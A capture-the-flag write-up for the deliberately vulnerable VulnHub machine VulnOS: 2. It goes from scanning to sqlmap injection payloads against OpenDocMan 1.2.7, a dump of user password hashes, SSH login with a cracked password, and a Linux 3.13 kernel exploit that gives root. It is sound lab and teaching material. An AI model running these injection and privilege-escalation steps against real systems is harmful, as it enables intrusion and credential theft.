


# Information

- Name: VulnOS: 2
- Date release: 17 May 2016
- Author: c4b3rw0lf
- Series: VulnOS
- Platform: VulnOS
- Link: https://www.vulnhub.com/entry/vulnos-2,147/
- Difficulty: Easy

# Write Up

## Enum
### Host Dicovery
Host Discovery is performed using [arpScan](https://github.com/aalmeidar/Tools) with mode fast. In this lab, the ip of machine is _10.0.2.9_.

```Console
# python arpScan.py -m 2 -r 10.0.2.0/24
[*] 52:54:00:12:35:00 10.0.2.1
[*] 52:54:00:12:35:00 10.0.2.2
[*] 08:00:27:27:dd:57 10.0.2.3
[*] 08:00:27:57:4f:aa 10.0.2.9
[*] 08:00:27:e1:f8:46 10.0.2.15
```

### Port Scanning
Port Scanning is realized with [portScan](https://github.com/aalmeidar/Tools) and _nmap_. The tool _portScan_ send a TCP SYN packet, then evaluate the answer, if the flags of TCP are SYN/ACK the port is open. So, there are 3 ports open:

```Console
# python portScanner.py -i 10.0.2.9
[*] Port 22 (ssh) open
[*] Port 80 (http) open
[*] Port 6667 (unknown) open
```
Let see the version that are running with _nmap_:

```Console
# nmap -sV -p22,80,6667 10.0.2.9
Starting Nmap 7.92 ( https://nmap.org ) at 2022-08-31 18:06 UTC
Nmap scan report for 10.0.2.9 (10.0.2.9)
Host is up (0.00032s latency).

PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 6.6.1p1 Ubuntu 2ubuntu2.6 (Ubuntu Linux; protocol 2.0)
80/tcp   open  http    Apache httpd 2.4.7 ((Ubuntu))
6667/tcp open  irc     ngircd
MAC Address: 08:00:27:57:4F:AA (Oracle VirtualBox virtual NIC)
Service Info: Host: irc.example.net; OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 11.68 seconds
```

## Web

Port 80 is running a web where there is a message from the author:


Redirect to 10.0.2.9/jabc/


In the _documentation_ (http://10.0.2.9/jabc/?q=node/7) there is a message with black font that say a new directory /jabcd0cs/ and creds guest:guest.


In /jabcd0cs/ there is a login panel provided by OpenDocMan v1.2.7.


## Exploitation

This version is vulnerable to [SQLi](https://www.exploit-db.com/exploits/32075). The parameter add_value in _http://10.0.2.9/jabcd0cs/ajax_udf.php?q=1&add_value=odm_user_ is vulnerable, so we can try list the databse with sqlmap.
```Console
# sqlmap -u "http://10.0.2.9/jabcd0cs/ajax_udf.php?q=1&add_value=odm_user" --level 4
sqlmap identified the following injection point(s) with a total of 2610 HTTP(s) requests:
---
Parameter: add_value (GET)
    Type: boolean-based blind
    Title: AND boolean-based blind - WHERE or HAVING clause
    Payload: q=1&add_value=odm_user WHERE 8676=8676 AND 4873=4873-- dVmo

    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: q=1&add_value=odm_user WHERE 6317=6317 AND (SELECT 1756 FROM (SELECT(SLEEP(5)))lizz)-- SJpI
---
```

In addition, its possible dump the database. There is a table _odm_user_  that have the passwords hashed. 
```Console
# sqlmap -u "http://10.0.2.9/jabcd0cs/ajax_udf.php?q=1&add_value=odm_user" -D jabcd0cs --tables
Database: jabcd0cs
[15 tables]
+-------------------+
| odm_access_log    |
| odm_admin         |
| odm_category      |
| odm_data          |
| odm_department    |
| odm_dept_perms    |
| odm_dept_reviewer |
| odm_filetypes     |
| odm_log           |
| odm_odmsys        |
| odm_rights        |
| odm_settings      |
| odm_udf           |
| odm_user          |
| odm_user_perms    |
+-------------------+

# sqlmap -u "http://10.0.2.9/jabcd0cs/ajax_udf.php?q=1&add_value=odm_user" -D jabcd0cs -T odm_user --dump
Database: jabcd0cs
Table: odm_user
[3 entries]
+----+--------------------+--------------+----------------------------------+----------+-----------+------------+------------+---------------+
| id | Email              | phone        | password                         | username | last_name | department | first_name | pw_reset_code |
+----+--------------------+--------------+----------------------------------+----------+-----------+------------+------------+---------------+
| 1  | webmin@example.com | 5555551212   | b78aae356709f8c31118ea613980954b | webmin   | min       | 2          | web        | <blank>       |
| 2  | guest@example.com  | 555 5555555  | 084e0343a0486ff05530df6c705c8bb4 | guest    | guest     | 2          | guest      | NULL          |
| 3  | test@test.com      | 2121 2121211 | 71d941b4ed4d2cd3b9a20760125eacd1 | test2    | test      | 2          | test1      | NULL          |
+----+--------------------+--------------+----------------------------------+----------+-----------+------------+------------+---------------+

```

With rockyou.txt and hashcat don't crack, so i searched a web crack md5 app. The web [md5online.org](https://www.md5online.org/md5-decrypt.html) give me the password. 

With user _webmin_ and password _webmin1980_, login ssh is succesful.

```Console
ssh webmin@10.0.2.9
The authenticity of host '10.0.2.9 (10.0.2.9)' can't be established.
ED25519 key fingerprint is SHA256:7FO0Y5C+W/hj0ShAjGy33uQvuMRPrSNk82jGy/wxnfY.
This key is not known by any other names
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '10.0.2.9' (ED25519) to the list of known hosts.
webmin@10.0.2.9's password:
Welcome to Ubuntu 14.04.4 LTS (GNU/Linux 3.13.0-24-generic i686)

 * Documentation:  https://help.ubuntu.com/

  System information as of Wed Aug 31 19:31:59 CEST 2022

  System load:  0.05              Processes:           89
  Usage of /:   6.3% of 29.91GB   Users logged in:     0
  Memory usage: 39%               IP address for eth0: 10.0.2.9
  Swap usage:   0%

  Graph this data and manage this system at:
    https://landscape.canonical.com/

New release '16.04.7 LTS' available.
Run 'do-release-upgrade' to upgrade to it.

Last login: Wed Aug 31 19:31:59 2022 from 10.0.2.15
$ whoami
webmin
$ id
uid=1001(webmin) gid=1001(webmin) groups=1001(webmin)
$ uname -r
3.13.0-24-generic
$ python -c 'import pty; pty.spawn("/bin/bash")'
webmin@VulnOSv2:~$
webmin@VulnOSv2:~$ export TERM=xterm-256color
```
## Privilege Escalation

Linux 3.13 on Ubuntu is vulnerable to [privilege escalation](https://www.exploit-db.com/exploits/37292). 

```Console
webmin@VulnOSv2:/tmp$ gcc pe.c -o pe
webmin@VulnOSv2:/tmp$ ./pe
spawning threads
mount #1
mount #2
child threads done
/etc/ld.so.preload created
creating shared library
# whoami
root
# id
uid=0(root) gid=0(root) groups=0(root),1001(webmin)
# cd /root
# cat flag.txt
Hello and welcome.
You successfully compromised the company "JABC" and the server completely !!
Congratulations !!!
Hope you enjoyed it.

What do you think of A.I.?
```


